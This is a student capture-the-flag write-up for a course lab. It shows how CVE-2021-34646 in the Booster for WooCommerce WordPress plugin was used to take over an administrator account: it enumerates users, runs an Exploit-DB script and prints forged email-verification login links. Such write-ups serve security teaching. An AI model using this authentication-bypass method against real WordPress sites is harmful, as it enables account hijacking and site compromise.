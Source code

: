 # WordPress CVE

## 1st flag

Upon accessing http://ctf-fsi.fe.up.pt:5001, which redirects to a website hosted by WordPress, we started investigating the several pages in search of potential clues.
Since the platform appeared to be a virtual store, we decided to check out the services for sale. 
That is when we stumbled across the following user-review:

![img.png](images/review.png)

This led us to believe that we could exploit vulnerabilities in the plugins to hack the server.
By clicking on a tab beside the review, we discovered all the plugins and respective versions:

![img.png](images/wordpress_plugins.png)

With the newly acquired information, we opened [CVEdetails.com](https://www.cvedetails.com/) to discover the CVEs associated with each plugin.
Considering our objective, we focused on vulnerabilities that allowed authentication bypassing.

After a thorough examination, we came across a Booster for Woocommerce entry whose description mentioned logging in as other users, including administrators: [CVE-2021-34646](https://www.cvedetails.com/cve/CVE-2021-34646/).
Considering this vulnerability only existed in versions `5.4.3` and below of Booster, it affected the website. Inputting `flag{CVE-2021-34646}`, we overcame the first challenge.

## 2nd flag

Having discovered the CVE we would use to exploit the website, we conducted a quick Google search and found [this](https://www.exploit-db.com/exploits/50299) page.
It was an Exploit Database entry for the vulnerability which, among more details about the CVE, contained a set of instructions for exploiting it:

* **1 -** Access http://ctf-fsi.fe.up.pt:5001/wp-json/wp/v2/users/ in order to obtain the user id of an administrator.
Since the link redirected us to a JSON document, we searched for the `id` attribute and found out the integer `1` was the id of an administrator.
* **2 -** Download a [Python script](etc/exploit_CVE-2021-34646.py) and execute it as such:
```shell
python ./exploit_CVE-2021-34646.py http://ctf-fsi.fe.up.pt 1
```
In short, the attack consists in the creation of login validation links with a key encoded in Base64 based on the current timestamp.
Below is the output of running the script:

```commandline
Timestamp: Sun, 08 Oct 2023 15:55:00 GMT
Timestamp (unix): 1696780500

We need to generate multiple timestamps in order to avoid delay related timing errors
One of the following links will log you in...

#0 link for hash f70c7ebdf95ed7d5fe4a19bcc649c67a:
http://ctf-fsi.fe.up.pt:5001/my-account/?wcj_verify_email=eyJpZCI6IjEiLCJjb2RlIjoiZjcwYzdlYmRmOTVlZDdkNWZlNGExOWJjYzY0OWM2N2EifQ

#1 link for hash 4218280efa71508291581504239678e8:
http://ctf-fsi.fe.up.pt:5001/my-account/?wcj_verify_email=eyJpZCI6IjEiLCJjb2RlIjoiNDIxODI4MGVmYTcxNTA4MjkxNTgxNTA0MjM5Njc4ZTgifQ

#2 link for hash d6df3f11a406f8a2e456378b27d60587:
http://ctf-fsi.fe.up.pt:5001/my-account/?wcj_verify_email=eyJpZCI6IjEiLCJjb2RlIjoiZDZkZjNmMTFhNDA2ZjhhMmU0NTYzNzhiMjdkNjA1ODcifQ
```

* **3 -** Use one of the generated links to log in to the system as an administrator.

After successfully hijacking the administrator's account, we accessed http://ctf-fsi.fe.up.pt:5001/wp-admin/edit.php as instructed in the CTF guide.
There we found the final flag: ```flag{please don't bother me}```.
